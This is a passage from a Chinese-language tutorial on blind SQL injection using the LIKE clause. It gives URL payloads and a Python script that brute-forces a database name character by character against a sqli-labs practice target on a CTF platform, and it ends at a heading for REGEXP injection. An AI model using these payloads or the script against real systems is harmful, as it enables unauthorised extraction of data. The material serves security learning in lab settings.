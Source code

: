 ```python
                flag += chr(j)
                print(flag)
```

#### LIKE注入

在LIKE子句中，百分比(%)通配符允许**匹配任何字符串的零个或多个字符**。下划线 `_` 通配符允许**匹配任何单个字符**。**匹配成功则返回1，反之返回0**，可用于sql盲注。

1、判断数据库长度

可用length()函数，也可用`_`，如：

```sql
/?id=' or database() like '________'--+  // 回显正常
```

2、判断数据库名

```sql
/?id=' or database() like 's%' --+
/?id=' or (select database()) like 's%' --+
或者:
/?id=' or database() like 's_______' --+
/?id=' or (select database()) like 's_______' --+
```

脚本

```python
import requests
import string

# strs = string.printable
strs = string.ascii_letters + string.digits + '_'
url = "http://b8e2048e-3513-42ad-868d-44dbb1fba5ac.node3.buuoj.cn/Less-8/?id="

payload = "' or (select database()) like '{}%'--+"

if __name__ == "__main__":
    name = ''
    for i in range(1, 40):
        char = ''
        for j in strs:
            payloads = payload.format(name + j)
            urls = url + payloads
            r = requests.get(urls)
            if "You are in" in r.text:
                name += j
                print(j, end='')
                char = j
                break
        if char == '#':
            break
```

#### REGEXP注入
